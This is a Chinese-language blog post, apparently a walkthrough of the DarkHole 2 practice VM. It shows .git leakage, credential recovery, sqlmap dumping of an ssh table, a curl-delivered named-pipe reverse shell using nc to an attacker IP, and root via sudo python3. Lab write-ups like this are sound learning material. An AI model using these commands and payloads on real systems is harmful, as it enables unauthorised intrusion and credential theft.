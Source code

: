 ```yaml
---
layout: post
title: DarkHole 2
subtitle: DarkHole 2
date: 2025-07-15 15:02
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```


ip扫描发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/gfbKzP.png)

扫描端口

![image.png](https://img.ghostliner.top/92tYeS.png)

目录扫描，发现 `.git` 目录，使用 `GitHack` 下载目录

```shell
# 下载GitHack
git clone https://github.com/BugScanTeam/GitHack.git
cd GitHack
# 执行
python2 GitHack.py http://192.168.163.134/.git/
```

进入到 `.git` 目录查看日志

```shell
git log
```

发现有三个版本，第二版本在`login.php`添加了默认凭证

![image.png](https://img.ghostliner.top/3Kf9f3.png)

回退版本

```shell
git reset --hard HEAD^
# or
git reset --hard a4d900a8d85e8938d3601f3cef113ee293028e10
```

查看 `login.php` 发现用户名：`lush@admin.com` 密码：`321`

![image.png](https://img.ghostliner.top/jPyGeI.png)

使用用户名密码登录成功，登陆后地址： <http://192.168.163.134/dashboard.php?id=1>

查看 `dashboard.php` , 其中 `\155`为8进制，`\x6f`为16进制

![image.png](https://img.ghostliner.top/rJ7Gcp.png)

解码 query，测试mobile参数未发现注入

```mysql
update users set username='{$fname}',email='{$email}',address='{$address}',contact_number='{$mobile}' where id=1
```

测试 `id`参数是否存在注入

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" --dbs --batch
```

获取数据库
![image.png](https://img.ghostliner.top/LCfuCU.png)

获取表

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --tables
```

![image.png](https://img.ghostliner.top/LoHkow.png)

获取列

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 --columns
```

![image.png](https://img.ghostliner.top/Mu8cJ4.png)

获取ssh表中数据

```shell
sqlmap.py -u http://192.168.163.134/dashboard.php?id=1 --cookie="PHPSESSID=ig59meapmtplquf4uqpl97v8kp" -D darkhole_2 -T ssh --dump
```

![image.png](https://img.ghostliner.top/ij6uhn.png)

用户名：`jehad` 密码：`fool`

ssh登录成功，查看home目录

![image.png](https://img.ghostliner.top/9AbmUV.png)

发现flag文件

![image.png](https://img.ghostliner.top/6eDntV.png)

获取到数据库用户名密码

![image.png](https://img.ghostliner.top/QtpOyP.png)

`sudo -l` 提权失败
![image.png](https://img.ghostliner.top/pbtTKM.png)

```shell
cat /etc/crontab
```

发现losy定时任务：在本地开放9999端口作为站点

![image.png](https://img.ghostliner.top/ZKmacp.png)

查看 `/opt/web` 目录下文件，可知需要构造get请求，参数为 `cmd`

![image.png](https://img.ghostliner.top/kXEBsn.png)

测试参数

![image.png](https://img.ghostliner.top/tX4umD.png)

尝试反弹shell

<mark>使用nc -e或nc -c都会报错</mark>

```shell
# mkfifo /tmp/f
curl http://127.0.0.1:9999?cmd=mkfifo%20%2Ftmp%2Ff
# echo "cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f" >/tmp/tt
curl http://127.0.0.1:9999?cmd=echo%20%22cat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20-nv%20192.168.163.132%204444%20%3E%2Ftmp%2Ff%22%20%3E%2Ftmp%2Ftt
# chmod +x /tmp/tt
curl http://127.0.0.1:9999?cmd=chmod%20%2Bx%20%2Ftmp%2Ftt
# /bin/bash /tmp/tt
curl http://127.0.0.1:9999?cmd=%2Fbin%2Fbash%20%2Ftmp%2Ftt
```

反弹成功切换为用户 `losy`

![image.png](https://img.ghostliner.top/bfO3pi.png)

查看 `.bash_history` 获取到losy用户密码：`gang`

![image.png](https://img.ghostliner.top/3VDxKW.png)

SSH登录，`sudo -l` 查看是否能提权

![image.png](https://img.ghostliner.top/p1rd3x.png)

使用python3提权

```shell
sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```

root提权成功

![image.png](https://img.ghostliner.top/8Dr4PW.png)

获取到最终flag文件
![image.png](https://img.ghostliner.top/ILL2cW.png)
